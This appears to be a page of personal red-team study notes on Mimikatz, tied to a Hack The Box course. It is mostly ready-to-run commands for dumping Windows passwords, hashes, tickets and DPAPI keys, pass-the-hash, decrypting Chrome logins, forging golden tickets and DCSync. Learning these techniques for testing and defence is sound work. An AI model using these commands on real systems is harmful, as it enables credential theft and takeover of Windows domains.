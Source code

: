 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.7k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full # in memory passwords
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

To decrypt chrome passwords:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

Request a TGS ticket:

```shell!
mimikatz# kerberos::ask /target:cn # request TGS for cn
mimikatz# base64 /out:true
mimikatz# kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [thehacker.recipes](https://tools.thehacker.recipes/mimikatz)

Golden ticket (Admin not required)

```shell!
mimikatz# kerberos::golden /user:dummy /domain:dev.example.com /sid:<child domain SID> /krbtgt:<hash> /sids:<target domain SID> /ptt
```
</div><div>

DCSync (Admin required)

```shell!
mimikatz# lsadump::dcsync /user:example\krbtgt
mimikatz# lsadump::dcsync /user:example\krbtgt /domain:example.com
```
</div></div>